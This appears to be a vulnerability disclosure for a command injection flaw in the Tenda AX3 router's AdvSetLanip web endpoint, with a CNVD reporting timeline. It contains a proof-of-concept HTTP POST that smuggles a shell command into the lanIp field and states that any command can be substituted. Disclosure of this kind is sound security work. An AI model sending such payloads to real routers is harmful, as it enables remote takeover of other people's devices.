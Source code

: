 # Tenda Router AX3 Vulnerability

There is a vulnerability lies in page goform/AdvSetLanip,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)). 

## Description

Vulnerabliity function fromAdvSetLanip(sub_ 511BC)

The variable v5 will directly retrieved from http request parameter lanIp , and execute SetValue(lan.ip,v5);

![image-20220115002459194](./1.png)

![image-20220115003229422](./2.png)

The value lan.ip is used in the parameters of the system function in many places.

For Example , function TendaTelnet

![image-20220115003502287](/Users/zyh/文档/挖/IoT-CVE/Tenda/AX3/1/3.png)

Once the value of lan.ip is set, the Router will always call the system function with the parameter lan.ip to perform command injection, resulting in RCE.

## POC

```bash
POST /goform/AdvSetLanip HTTP/1.1 
Host: tendawifi.com 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0 Accept: */* 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,enUS;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate 
Content-Type: application/x-www-form-urlencoded; 
charset=UTF-8 
X-Requested-With: XMLHttpRequest 
Content-Length: 25 
Connection: close 
Referer: http://tendawifi.com/index.html 

lanIp=192.168.0.1;reboot;
```

"reboot" can be replaced with any command the attacker wants to execute.

## Timeline

- 2021-12-28  report to CNVD & CVE 

- 2022-01-14  CNVD ID assigned : CNVD-2022-03736